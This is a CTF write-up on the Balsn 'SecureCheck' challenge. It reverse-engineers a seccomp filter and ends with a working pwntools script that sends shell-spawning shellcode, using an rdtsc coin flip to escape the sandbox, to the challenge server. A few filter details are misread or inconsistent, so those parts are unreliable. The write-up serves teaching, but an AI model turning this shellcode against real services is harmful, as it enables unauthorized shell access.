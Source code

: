 # SecureCheck

So what we have in this ctf task - just an application which called `nosyscal` and nothing more... So let's try to open it with radare/cutter to see what's inside.

## Overview
![overview](overview.png)
Just an elf64 binary with two functions which are relevant `main` and `instal_syscall_filter`. Let's see what's inside `main` with decompiler's help :

## main
~~~~
undefined8 main(void)  
{  
	int32_t iVar1;  
	undefined8 uVar2;  
	int64_t in_FS_OFFSET;  
	int32_t iStack36;  
	code *pcStack32;  
	code *UNRECOVERED_JUMPTABLE;  
	int64_t iStack16;  
	  
	iStack16 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	pcStack32 = (code *)sym.imp.mmap(0, 0x1000, 7, 0x22, 0xffffffff, 0);  
	sym.imp.read(0, pcStack32, 0x1000);  
	UNRECOVERED_JUMPTABLE = pcStack32;  
	iVar1 = sym.imp.fork();  
	if (iVar1 == 0) {  
		sym.install_syscall_filter();  
	} else {  
		sym.imp.wait(&iStack36);  
		if (iStack36 != 0) {
			uVar2 = 0;  
			if (iStack16 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
					uVar2 = sym.imp.__stack_chk_fail();  
			}  
			return uVar2;
		}
	}
	// WARNING: Could not recover jumptable at 0x00000a20. Too many branches  
	// WARNING: Treating indirect jump as call  
	uVar2 = (*UNRECOVERED_JUMPTABLE)(0, 0, UNRECOVERED_JUMPTABLE, 0, 0, 0);  
	return uVar2;  
}
~~~~
From first view seems like `shellcode` task which gets the input, put it in the mmap and runs in both processes if child successfully exit.
Also noticed that all regs are xored also.
~~~~
0x000009f6      xor     rbx, rbx
0x000009f9      xor     rcx, rcx
0x000009fc      xor     rdi, rdi
0x000009ff      xor     rsi, rsi
0x00000a02      xor     rsp, rsp
0x00000a05      xor     rbp, rbp
0x00000a08      xor     r8, r8
0x00000a0b      xor     r9, r9
0x00000a0e      xor     r10, r10
0x00000a11      xor     r11, r11
0x00000a14      xor     r12, r12
0x00000a17      xor     r13, r13
0x00000a1a      xor     r14, r14
0x00000a1d      xor     r15, r15
~~~~

But what's happening inside `install_syscall_filter`?

## install_syscall_filter
~~~~
undefined8 sym.install_syscall_filter(void)  
{  
	int64_t iVar1;  
	int32_t iVar2;  
	undefined8 uVar3;  
	int64_t in_FS_OFFSET;  
	uint32_t v3;  
	int32_t var_58h;  
	int32_t var_50h;  
	int32_t var_48h;  
	int32_t var_40h;  
	int32_t var_38h;  
	int32_t var_30h;  
	int32_t var_28h;  
	int32_t var_20h;  
	int32_t var_18h;  
	int32_t var_10h;  
	int32_t canary;  
	  
	iVar1 = *(int64_t *)(in_FS_OFFSET + 0x28);  
	v3._0_2_ = 9;  
	iVar2 = sym.imp.prctl(0x26, 1, 0, 0, 0);  
	if (iVar2 == 0) {  
		iVar2 = sym.imp.prctl(0x16, 2, &v3);  
	if (iVar2 == 0) {  
		uVar3 = 0;  
	goto code_r0x0000096b;  
	}  
		sym.imp.perror(0xaf8);  
	} else {  
		sym.imp.perror(0xae4);  
	}  
	uVar3 = 1;  
	code_r0x0000096b:  
	if (iVar1 != *(int64_t *)(in_FS_OFFSET + 0x28)) {  
		uVar3 = sym.imp.__stack_chk_fail();  
	}  
	return uVar3;  
}
~~~~
`prctl` calls with some variables and all `vars_*` on stack are not relevant from radare's opinion, heh.  Those  identifiers (0x16/PR_SET_SECCOMP, 0x26/PR_SET_NO_NEW_PRIVS) points out on some `seccomp` application filtering, interesting. Need to find out then what's coming as `v3`, there is only size of `v3` is pointed out but where is the data?
![install_syscall_filter variables](stack.png)
Seems like radare2 not smart enough about variables in decompile section :) What is that? Oh wait, seems like `sock_filter` structures.
~~~~
{0x20, 0, 0, 4}
{0x15, 1, 0, 0xc000003e}
{0x6, 0, 0, 0}
{0x20, 0, 0, 0}
{0x15, 0, 1, 0x3}
{0x6, 0, 0, 0x7fff0000}
{0x15, 0, 1, 0xe7}
{0x6, 0, 0, 0x7fff0000}
{0x6, 0, 0, 0}
~~~~
Let's disassemble with `bpf_dbg` and see what the rules are on:
~~~~
l0: ld [4] 
l1: jeq #0xc000003e, l3, l2 
l2: ret #0 
l3: ld [0] 
l4: jeq #0x3c, 
l5, l6 
l5: ret #0x7fff0000 
l6: jeq #0xe7, l7, l8 
l7: ret #0x7fff0000 
l8: ret #0
~~~~
Hm, interesting, 
0x3e/62 - kill
0x3c/60 - exit
0xe7/231 - exit group

So we're able to use only exit/exit group calls, otherwise we will be killed.
What should we do in this case?

## Solution

After some discussion we decide to `exit` from child and run `shell` on parent with shellcode because parent will not be affected by child's limitations with `prctl`. But how we do know where we are in child or in parent? Let's coin flip and decide from it, of course it will not happen from first attempt but it should after some time. `rdtsc` will do the coin flip magic... Let's code with pwntools :
~~~~
#!/usr/bin/env python3  
from pwn import *  
  
context.arch = 'amd64'  
shellsource = \  
		' rdtsc\n' + \  
		' test rax, 0x100\n' + \  
		' lea rsp, [rest + rip]\n' + \  
		' jz exit0\n' + \  
		shellcraft.amd64.linux.sh() + \  
		'exit0:\n' + \  
		shellcraft.amd64.linux.exit(0) + \  
		' .skip 512\n' + \  
		'rest:\n'  
  
print(shellsource)  
shellcode = asm(shellsource)  
p = remote('securecheck.balsnctf.com', 54321)  
p.send(shellcode)  
p.interactive()
~~~~
After some attempts as expected we got the flag, hurray!

*Balsn{Sam3_Cod3_Same_Cont3xt_Diff3r3nt_World}*

